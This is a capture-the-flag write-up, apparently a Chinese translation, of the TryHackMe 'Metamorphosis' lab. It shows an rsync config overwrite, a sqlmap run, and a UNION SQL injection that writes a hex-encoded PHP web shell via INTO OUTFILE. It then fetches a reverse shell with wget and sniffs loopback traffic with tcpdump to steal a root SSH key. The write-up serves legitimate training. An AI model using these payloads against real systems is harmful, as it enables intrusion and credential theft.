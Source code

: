 # TryHackMe:变形

> 原文：<https://infosecwriteups.com/tryhackme-metamorphosis-81e1db375056?source=collection_archive---------1----------------------->

![](img/5900de439a568dee463eac71046e143a.png)

# 最初的立足点

通过进行 Nmap 扫描，我们可以让服务在机器上运行。

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernelHost script results:
|_clock-skew: mean: 0s, deviation: 1s, median: 0s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-04-17T15:35:53+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-17T15:35:53
|_  start_date: N/A
```

首先，我们检查机器上运行的 web 服务，我们得到了 ubuntu 的默认页面，如果你在域上进行目录强制，你会发现它有一个管理端点，但当我们去的时候，它显示 403 禁止，当我们检查源代码时，它说。

```
**<html> <head><h1>403 Forbidden</h1></head><! — Make sure admin functionality can only be used in development environment. →</html>**
```

这意味着我们目前处于生产环境中，我们必须想办法进入生产环境。为此，我们可以检查其他服务。所以我们有了 Rsync 和 Rsync，Rsync 用于通过比较文件的修改时间和大小，在计算机和外部硬盘之间以及联网的计算机之间传输和同步文件。

所以让我们看看通过 Rsync 可以得到的 dir

```
└─$ rsync -av rsync://10.10.130.243/                                                                    
Conf            All Confs
```

现在检查 Conf 目录中的文件

![](img/a24a5e2d012d04d1e48355294240b415.png)

同步/下载 Conf 目录中的文件，因为该功能通过 Rsync 服务同步文件。

```
rsync -a "rsync://IP/Conf" ./
```

![](img/a97fbfbc73c31bb0617c1603fa4a4c13.png)

这里我们有服务器使用的“ **webapp.ini** ”文件，我们可以在其中指定“开发”环境，并将 webapp.ini 文件与服务器同步

```
rsync ./webapp.ini "rsync://IP/Conf/webapp.ini"
```

现在我们可以访问'[http://10 . 10 . 242 . 95/admin/](http://10.10.242.95/admin/)'

![](img/3b47a4df56034caec4a56a009c5a3cf8.png)

为了识别 Sqli 的有效负载，我们将首先捕获 burp 中的请求并保存该请求。

```
POST /admin/config.php HTTP/1.1
Host: 10.10.176.232
Content-Length: 13
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: [http://10.10.176.232](http://10.10.176.232)
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.72 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-GPC: 1
Referer: [http://10.10.176.232/admin/](http://10.10.176.232/admin/)
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: closeusername=x3rz
```

保存后，我们将使用 sqlmap 运行它。

```
sqlmap -r sqli.request -p username --risk 3 --level 5
```

这将向我们显示 webapp 中的负载和漏洞名称。

有效载荷:

```
x3rz" UNION ALL SELECT NULL,NULL,CONCAT(0x717a7a7871,0x437257454b476461616b5a705266745776585066456576576b4665426e63624d774a45575475474d,0x717a766a71)-- -
```

基本上有 3 列。现在让我们通过使用 user()、version()或 database()内置的 SQL 函数来找出易受攻击的列。

```
x3rz" UNION ALL SELECT version(),user(),database() -- -
```

![](img/01b9ce8674feafcd6668fd31c6bcba4b.png)

所以它给出了 user()和 database()输出，所以第 2 列和第 3 列容易受到攻击。

现在让我们得到我们的 RCE。

对于 RCE，我们将按照易受攻击的列将 PHP 代码写入文件。

```
print (("<? system($_GET['cmd’]); ?>").encode('utf-8').hex())
3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e
```

这是我们的 PHP 代码的十六进制，我们这样做是为了绕过过滤，所以它不会改变我们的有效载荷文件的内容。

有效载荷:

```
x3rz" UNION ALL SELECT NULL,0x3c3f7068702073797374656d28245f4745545b27636d64275d293b3f3e,NULL INTO OUTFILE "/var/www/html/revshell.php"-- -
```

现在让我们访问实例[上的有效负载 http://10 . 10 . 46 . 175/revshell . PHP](http://10.10.46.175/revshell.php?cmd=id)

![](img/f151d47f33caefcb18fb859ffe0b2141.png)

我们做了 RCE 现在时间进入盒子，为此我们必须执行 netcat 或任何 rev shell 命令的 python，ruby，PHP，或任何东西，但在我的情况下，这些不工作，所以我尝试了另一种方法，我下载了 pentester 猴子反向外壳到机器上使用 wget，并从机器上获得反向连接。

![](img/f43b2f297998fa4938ec28393d7214b9.png)

现在，我们必须开始在机器内部进行枚举，以找到将引导我们找到系统根的东西。我做了基本的枚举，如 SUID 位、检查备份和功能。在功能中，我们发现了一些不常见的东西，那就是 tcpdump。

```
getcap -r / 2>/dev/null/usr/sbin/tcpdump = cap_net_raw+ep
```

如果我们在机器上执行 linpeas，我们还会发现 127.0.0.1:1024 ( python)上的一些活跃的互联网连接(服务器和已建立的连接),并且 linpeas 还会告诉我们可以通过 tcpdump 进行监听。但是对于 tcpdump，我们必须指定我们必须嗅探的接口，因为我们已经知道一些服务正在 127.0.0.1 上运行，因此我们必须嗅探 **localhost 接口(环回)**。我们不知道接口缩写，只要做 ifconfig，你就会在那里找到它，即 **lo** 。

![](img/6cafac87fb9c9c6d664a76452009a541.png)![](img/05b821124c201631bbe5255c105c8e09.png)

```
tcpdump -A -n -i lo -vvv
```

等待一段时间，我们得到了 ssh 私有密钥，我试着用它作为 root 登录，它成功了。我们终于扎根了。

![](img/8df8aa9a6d606d6163752a71a906c70d.png)

SSH 私钥

![](img/b6bec7cd12757cbaa164f2b0fbbd78dc.png)

根

**奖励:**根目录下多了两个文件。一个是 req.sh，另一个是 serv.py。因此 serv.py 是托管在 127.0.0.1:1024 上的 flask 应用程序，它具有私钥，系统持续执行 req.sh，它将 curl 请求发送到 flask 服务器，如果 admin 的值正确，它将返回我们的私钥。

![](img/8accfedfbf8966945aaa3b4575b6b35f.png)

感谢阅读😄